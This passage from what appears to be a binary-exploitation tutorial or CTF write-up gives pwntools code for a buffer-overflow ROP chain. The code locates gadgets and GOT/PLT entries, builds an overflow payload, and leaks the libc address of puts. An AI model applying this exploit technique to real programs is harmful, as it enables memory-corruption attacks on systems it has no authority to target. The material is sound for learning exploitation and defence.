 

* Load requirements for leaking the address
    ```python
        # open the binary
        binary = ELF('./binary')

        # Get the gadgets
        pop_rdi = p64(next(binary.search(asm('pop rdi; ret'))))
        ret = p64(next(binary.search(asm('ret'))))

        # get the addresses of puts_plt and puts_got from the binary
        puts_got = p64(binary.got['puts'])
        puts_plt = p64(binary.plt['puts'])
    ```

* Now to exploit the buffer overflow we need the address of main and size of
buffer 

    > I wrote a small bash snippet that uses gdb to extract address and buffer size [**tec.sh**](./tec.sh)

    `Lets call the helper script and get the address and  buffer size`  

    ```python
        # Call the helper script
        main,buff_size = subprocess.check_output('./tec.sh',shell=True).decode('utf-8').strip('\n').split('\n')
        main = p64(int(main, 16))
        buff_size = int(buff_size, 16)
    ```

* Now we are ready to exploit the binary 
    > **Note**: We have to send the address of main at the end that will cause the program to execute main once again and we can then send another payload.
    ```python
        # Prepare padding for our exploit
        offset = b'A'*buff_size + b'8bytJUNK'
        payload = offset + pop_rdi + puts_got + puts_plt + main
    ```
* Lets send our payload 
    ```python
        p.recvuntil('?')
        p.sendline( payload )
        p.recvline()
        p.recvline()
        leak = p.recvline()
        leaked_puts = u64(leak[:-1] + b'\x00\x00')
    ```
